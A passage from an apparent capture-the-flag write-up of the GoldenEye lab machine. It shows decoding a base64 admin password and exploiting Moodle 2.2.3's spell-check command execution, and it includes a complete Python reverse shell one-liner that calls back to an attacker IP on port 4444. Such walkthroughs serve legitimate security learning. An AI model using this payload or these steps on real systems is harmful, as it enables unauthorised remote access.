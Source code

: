 The image description looks like base64 so using the command ```echo -n "eFdpbnRlcjE5OTV4IQ==" | base64 -d``` I was able to retrieve the admin password.

### Shell

As an admin on moodle we get a lot more options, the moodle version is 2.2.3, googleing for 'moodle 2.2.3 exploit', the first result provides an [exploit](https://www.rapid7.com/db/modules/exploit/multi/http/moodle_cmd_exec/) using the spell check function. Reading the source code it looks fairly straight forward so I decided to do manualy rather than use Metasploit.

First I updated the system path with the payload ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<local machine IP>>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

![systempath](/assets/images/goldeneye/systempath.png)

Next I changed the shell engine to use 'PSpellShell'.

![updatedshell](/assets/images/goldeneye/updatedshell.png)